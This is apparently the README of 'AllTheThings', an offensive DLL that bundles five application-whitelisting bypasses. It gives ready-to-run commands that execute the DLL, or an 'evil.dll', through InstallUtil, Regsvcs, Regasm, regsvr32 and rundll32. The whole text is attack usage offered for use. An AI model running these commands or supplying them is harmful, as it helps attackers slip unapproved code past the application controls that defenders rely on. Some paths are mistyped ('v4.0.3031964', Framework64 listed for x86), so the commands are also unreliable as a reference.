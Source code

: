 # AllTheThings
Includes 5 Known Application Whitelisting/ Applicaoitn Control Bypass Techiniques in One File.


Includes 5 Known Application Whitelisting/ Applicaoitn Control Bypass Techiniques in One File.
1. InstallUtil.exe

2. Regasm.exe

3. Regsvcs.exe

4. regsvr32.exe . 

5. rundll32.exe



Usage:
1. 
    x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll

    x64 - C:\Windows\Microsoft.NET\Framework\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
2. 
    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll
3. 
    x86 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

4. 
    regsvr32 /s  /u evil.dll -->Calls DllUnregisterServer

    regsvr32 /s evil.dll --> Calls DllRegisterServer
5. 
    rundll32 AllTheThings.dll,EntryPoint
